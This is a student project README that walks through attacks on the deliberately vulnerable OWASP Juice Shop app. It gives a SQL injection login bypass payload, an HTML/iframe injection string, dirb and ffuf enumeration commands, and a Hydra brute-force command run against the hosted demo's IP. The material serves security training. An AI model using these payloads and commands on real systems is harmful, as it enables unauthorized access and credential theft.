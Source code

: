 # juice-shop
Juice-Shop web Pentesting Project
# Juice-Shop Web Penetration Testing Project

In today's digital landscape, web applications are increasingly becoming targets for cyber threats, making security a paramount concern for developers and organizations alike. The Juice Shop project serves as an exemplary platform for understanding and testing web application vulnerabilities in a controlled environment. Designed as an intentionally insecure web application, Juice Shop provides a rich ground for security professionals, developers, and enthusiasts to hone their penetration testing skills.

This project aims to conduct a comprehensive penetration test on the Juice Shop application, identifying potential security weaknesses and vulnerabilities that could be exploited by malicious actors. By simulating real-world attack scenarios, we will explore various aspects of web security, including but not limited to, authentication flaws, cross-site scripting (XSS), SQL injection, and insecure direct object references.

## Objectives

The primary objectives of this penetration testing project are to:

1. **Identify Vulnerabilities**: Systematically assess the Juice Shop application to uncover security flaws that could compromise user data and application integrity.
  
2. **Understand Attack Vectors**: Gain insights into common attack vectors and methodologies used by cybercriminals to exploit web applications.

3. **Enhance Security Awareness**: Provide recommendations and best practices for securing web applications, thereby contributing to the overall improvement of web security.

4. **Hands-On Learning**: Offer a practical learning experience for individuals interested in cybersecurity, allowing them to apply theoretical knowledge in a real-world context.

Through this project, we aim to not only identify and document vulnerabilities but also to foster a deeper understanding of web application security principles. By the end of this penetration testing engagement, participants will be better equipped to recognize and mitigate security risks in their own web applications, ultimately contributing to a safer online environment.

The Project was made by:
1.  **Hossam Ahmed Adel (2305037).**
2.  **Antony Medhat Makram (2305065).**
3.  **Mosab Magdy Abdelhalem (2305069).**
# Ways of Hacking Juice-Shop
# 1- SQL Injection
![Screenshot01](https://github.com/hossam-ahmedd/juice-shop/blob/main/1.png?raw=true)
![Screenshot02](https://github.com/hossam-ahmedd/juice-shop/blob/main/2.png?raw=true)
![Screenshot03](https://github.com/hossam-ahmedd/juice-shop/blob/main/3.png?raw=true)
We started by performing an SQL injection by injecting SQL commands into the login credentials to bypass the authentication process.
## SQL Injection Example

An example of an SQL injection payload is:

```sql
admin' or 1=1;
```
# 2- XSS (HTML Injection)
![Screenshot01](https://github.com/hossam-ahmedd/juice-shop/blob/main/h4.png?raw=true)
![Screenshot02](https://github.com/hossam-ahmedd/juice-shop/blob/main/h5.png?raw=true)
![Screenshot03](https://github.com/hossam-ahmedd/juice-shop/blob/main/h6.png?raw=true)
We tried to perform a cross-site attack through HTML injection by typing HTML code into the search bar, and it was executed successfully!

## HTML Injection Example



An example of an HTML injection payload is:

```html
<iframe src="https://alexu.mans.edu.eg/static/index.html"></iframe>
```
# 3- FTP Server Discovery
![Screenshot01](https://github.com/hossam-ahmedd/juice-shop/blob/main/d7.png?raw=true)
![Screenshot02](https://github.com/hossam-ahmedd/juice-shop/blob/main/d8.png?raw=true)
![Screenshot03](https://github.com/hossam-ahmedd/juice-shop/blob/main/d9.png?raw=true)

We found the FTP server path By dirb tool, which contains many sensitive information and data, such as company secrets and malware files. In addition, we discovered videos of promotions.
```
dirb http://127.0.0.1:42000/
```
# 4- Enumeration to Find Admin Path
![Screenshot01](https://github.com/hossam-ahmedd/juice-shop/blob/main/f9.png?raw=true)
![Screenshot02](https://github.com/hossam-ahmedd/juice-shop/blob/main/f10.png?raw=true)
![Screenshot03](https://github.com/hossam-ahmedd/juice-shop/blob/main/f11.png?raw=true)

In this phase, we used the FFUF tool to identify the admin path for the URL, which performed a brute-force attack and returned all possible paths. Additionally, we inspected the source code of the URL and found the administration path within it.
## FFUF Command
```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://127.0.0.1:42000/#/FUZZ  -c -v
```
# 5- BruteForce on Admin Credentials

![Screenshot01](https://github.com/hossam-ahmedd/juice-shop/blob/main/hydra1.png?raw=true)

In this phase, we used Hydra to BruteForce on the admin password from the `rockyou.txt` wordlist. The following steps outline the process:


First, ensure that you have the `rockyou.txt` wordlist available. If it is compressed, extract it using the following command:

```
cd /usr/share/wordlists/   
gunzip rockyou.txt.gz
```
Then, We ping on the juice-shop url to get the ip address
```
ping -c 1 juice-shop.herokuapp.com
```
Finally, We Use the Hydra command to make login attempts with all wordlist records
```
hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 54.220.192.176  https-post-form "/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I
```

